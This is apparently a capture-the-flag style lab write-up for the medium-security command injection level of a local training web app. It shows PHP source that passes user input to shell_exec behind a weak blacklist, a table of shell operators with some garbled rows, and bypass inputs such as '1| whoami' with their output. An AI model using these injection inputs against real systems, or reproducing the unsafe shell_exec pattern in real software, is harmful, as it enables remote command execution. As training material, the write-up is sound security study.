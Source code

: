 ## Command Injection Medium


We look at the source code http://127.0.0.1/vulnerabilities/view_source.php?id=exec&security=medium



```php


<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>

```

Since it does nto validate user input , we can just input a random integer or character instead of an ip address 

using the operators 


| Name  | operators     | Description |
| --- | --- | --- |
| Ampersand     | & | Dictates the shell to execute the linux command in the background |
| Semicolon     | ; | execute command in a defined , sequential order |
| Or    | ||    | will execute the command that follows if the preceding command fails (returns an exit code of 0 ) Like a logical or gate |
| Pipe  | | | Directs the output of the preceding command as the input to the succeeding command |
| AND   | &&    | will execute commands only if the preceding command was successfully executed |
| Will execute all the commands up until bad_command |
| NOT   | ! | Does not perform an operation |
| Precedence    | (..)  | The commands following the AND and OR operators depend on the exit code of the preceding command. These operators are binary and only evaluate the two commands that come before and after them |
| Set groups and precedence to ensure that the execution sequence meets your expectations |
| Combination   | {..}  | Group commands: Will be executed depending upon the exit code of the first command |
| Concatenation or Escape   | \ | Two Functions: Either use it to conctenate two commands or as an escape character when working with  strings in shell |
| Redirection   | >, >> , <     | Redirects the output or the inut to a file by re-writting or appending to the file |

|


It is restricting us from using && and ; 


We can start trying the operands 

```Bash
1| whoami 
1| hostname
``` 

```Bash
1& whoami 
1& hostname
``` 

```Bash
1 || whoami 
1 || hostname
``` 

and the result is : 

```Bash
www-data
7ee3c931e984
```
